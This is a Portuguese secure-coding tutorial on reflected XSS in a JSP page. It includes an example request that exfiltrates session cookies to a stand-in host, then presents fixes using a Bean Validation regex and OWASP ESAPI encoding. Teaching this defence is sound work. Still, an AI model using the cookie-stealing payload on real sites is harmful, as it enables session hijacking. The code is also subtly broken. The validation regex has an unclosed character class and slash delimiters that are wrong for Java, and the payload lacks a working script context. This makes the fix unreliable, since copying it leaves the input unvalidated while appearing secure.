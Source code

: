     A aplicação confia que a requisição virá da seguinte forma:

    <pre>
    http://mysite.com?username=guilherme
    </pre>

    Servidor renderizando a requisição diretamente na página:

    <pre>
    &lthtml&gt
        &lthead>
            &lttitle>Bem-vindo(a)&lt/title&gt
        &lt/head&gt
        &ltbody&gt
            &ltdiv>Bem-vindo(a) <%= request.getParameter("username")%>&lt/div&gt
        &lt/body&gt
    &lt/html&gt
    </pre>

    Sem as devidas validações, o atacante pode enviar a seguinte requisição para exfiltrar os <i>cookies</i> de sessão para outro servidor:

    <pre>
    http://mysite.com?username=document.write('&ltimg src="https://otherserver.com/collect.gif?cookie=' + document.cookie + '" /&gt')
    </pre>

    Para corrigir, precisamos adicionar 2 passos a nossa aplicação:

    **1º Validar o parâmetro de entrada**. Utilizando a especificação Bean Validation junto com regex para validar que somente serão inseridos letras e dígitos ASCII, com hífens, <i>underscores</i> e espaços como separadores:

    <pre>
    @Controller
    public class UserController {

        public String welcomePage(
            @Pattern(
                regexp = "/^[A-Za-z0-9]+(?:[ _-[A-Za-z0-9]+)*$/") String username){
            
            // Código
        }

    }
    </pre>

    **2º <i>Encodar</i> a entrada renderizada no HTML utilizando a lib OWASP ESAPI:**

    <pre>
    &lthtml&gt
        &lthead&gt
            &lttitle&gtBem-vindo(a)&lt/title&gt
        &lt/head&gt
        &ltbody&gt
            &ltdiv&gtBem-vindo(a)
            <%= ESAPI.encoder().encodeForHTML(request.getParameter("username")) %>
            &lt/div&gt
        &lt/body&gt
    &lt/html&gt
    </pre>
